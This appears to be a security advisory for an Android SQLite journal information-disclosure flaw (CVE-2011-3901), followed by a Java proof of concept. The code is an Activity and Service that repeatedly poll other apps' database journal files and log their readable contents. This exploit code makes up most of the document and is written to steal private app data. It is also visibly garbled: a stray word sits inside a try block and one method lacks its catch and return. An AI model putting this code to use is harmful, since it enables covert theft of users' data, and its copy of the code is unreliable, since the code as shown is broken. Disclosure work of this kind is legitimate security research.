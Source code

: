 ```yaml
---
layout: vuln
credit:
    - roeeh

timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-05-03' 
alephid: ALEPH-2011001
cve: CVE-2011-3901
date: '2012-05-03'
title: 'Android SQLite Journal Information Disclosure '
severity: high
product:
    - Android 2.3.7
mitigation: 'Install Android 4.0.1'
references:
    - src: Paper
      url: http://blog.watchfire.com/files/androidsqlitejournal.pdf
---
```

The journal file of SQLite databases can be read by all applications:
* The application's data directory has execution rights for all users, up to the root. This means that files with read or write permissions for all users, found under the application's data directory are actually globally accessible.
* The /data/data/<app package>/databases directory is created with [rwxrwx--x] permissions, meaning that files under that dir with global read or write permissions, are globally readable or writable.
* The journal file is created under the databases directory with [-rw-r--r--] permissions and therefore it can be read by all apps.

*Conclusion:* All databases maintained by Android's SQLite engine (unless named with a random and unguess-
able string) can be leaked by malicious applications without the need to declare adequate privileges. The
databases can be leaked during the lifetime of the journal file, (i.e. when the transaction is made).


## Proof-of-Concept ##
```java
public class SqlliteJournalLeakActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        final Intent intent = new Intent(this, com.ibm.android.sqllitejournal.SqlliteJournalLeakService.class);
        final PendingIntent pending = PendingIntent.getService(this, 0, intent, 0);
        final AlarmManager alarm = (AlarmManager) this.getSystemService(Context.ALARM_SERVICE);
        alarm.cancel(pending);
        long interval = 30;
        alarm.setRepeating(AlarmManager.ELAPSED_REALTIME, SystemClock.elapsedRealtime(),interval, pending);
    }
}
public class SqlliteJournalLeakService extends Service {
    private final String[] DATABASES = {
        [... see paper ...]
    };
    
    private final IBinder mBinder = new SqlliteJournalLeakServiceBinder();
    private HashMap<String, Long> mLastChanges = new HashMap<String, Long>();
    private FileOutputStream mLog;
   
    @Override
    public void onCreate() {
        try {quick
        mLog = openFileOutput("leak.log", MODE_APPEND);
        } catch (FileNotFoundException e) {}
    }
    
    @Override
    public int onStartCommand(Intent intent, int flags, int startId)
    {
        trackChanges();
        return START_STICKY;
    }
    
    private void trackChanges()
    {
        for (String name : DATABASES)
        {
            name = "/data/data" + name + "-journal";
            File f = new File(name);
            if (!f.exists())
            {
                continue;
            }
            if (!mLastChanges.containsKey(name))
            {
                mLastChanges.put(name, f.lastModified());
                handleChange(f);
            }
            long m = f.lastModified();
            if (mLastChanges.get(name) >= m)
                continue;
            mLastChanges.put(name, m);
            handleChange(f);
        }
    }
    private void handleChange(File file)
    {
        log(file.getAbsolutePath(), getPrintable(file));
    }
    private void log(String pkg, String data)
    {
        String line = pkg + ":\n\n" + data + "\n================================\n";
        try
        {
            mLog.write(line.getBytes());
            mLog.flush();
        }
        catch (IOException e) {}
    }
  
    private static String getPrintable(File journal)
    {
        String printable = "";
        int len = 0;
        FileReader fr;
 
        try {
            fr = new FileReader(journal);
            char[] buffer = new char[1024];
            while (-1 != (len = fr.read(buffer)))
            {
                for (int i = 0 ; i < len ; i++)
                {
                if (filter(buffer[i]))
                    printable += buffer[i];
                }
            }
        }
    }
    private static boolean filter(char ch)
    {
        switch (ch)
        {
            case '\n':
            case '\r':
            case '\t':
                return true;
        }
        if ((ch >= 0x20) && (ch <= 0x80))
            return true;
        return false;
    }
    public class SqlliteJournalLeakServiceBinder extends Binder {
        SqlliteJournalLeakService getService() {
            return SqlliteJournalLeakService.this;
        }
    }
    @Override
    public IBinder onBind(Intent intent) {
        return mBinder;
    }
}
```
